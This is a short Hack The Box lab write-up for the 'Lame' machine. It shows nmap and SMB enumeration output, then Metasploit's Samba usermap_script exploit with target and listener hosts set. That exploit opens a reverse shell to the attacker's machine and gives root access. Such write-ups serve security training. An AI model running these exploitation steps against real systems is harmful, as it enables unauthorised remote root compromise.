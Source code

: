 ```yaml
---
layout: post
title: Lame
date: 2020-03-30
author: OutHackThem
comments: true
categories: htb
tags: [Linux,htb]
---
```


## Lame writeup

Easy linux machine

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Lame/main.png)


Let's do a quick nmap all ports

```perl

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:                                                                                                                                                                                        
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)                                                                                                                                             
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)                                                                                                                                        
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)                                                                                                                                       
|_smb2-time: Protocol negotiation failed (SMB2)                                 

```

<br>

### Enumeration

- Tried to enumerate using smbclient

![smb-enum]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Lame/smbclient.png)


Found nothing As you can see I also tried to put an exploit on the shared folder but no seed. Tried to enumerate the version of the SMB using metasploit

```perl

msf5 auxiliary(scanner/smb/smb_version) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf5 auxiliary(scanner/smb/smb_version) > run

[*] 10.10.10.3:445        - Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 10.10.10.3:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

### Exploitation

Found an exploit for the Samba version found. ran that and got a root shell



```perl
msf5 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set lhost 10.10.14.3
lhost => 10.10.14.3
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.3:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo jWLKJ2BffrrkAeob;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "jWLKJ2BffrrkAeob\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.3:4444 -> 10.10.10.3:33405) at 2020-03-30 03:39:07 -0400

id
uid=0(root) gid=0(root)

```
That's all pretty simple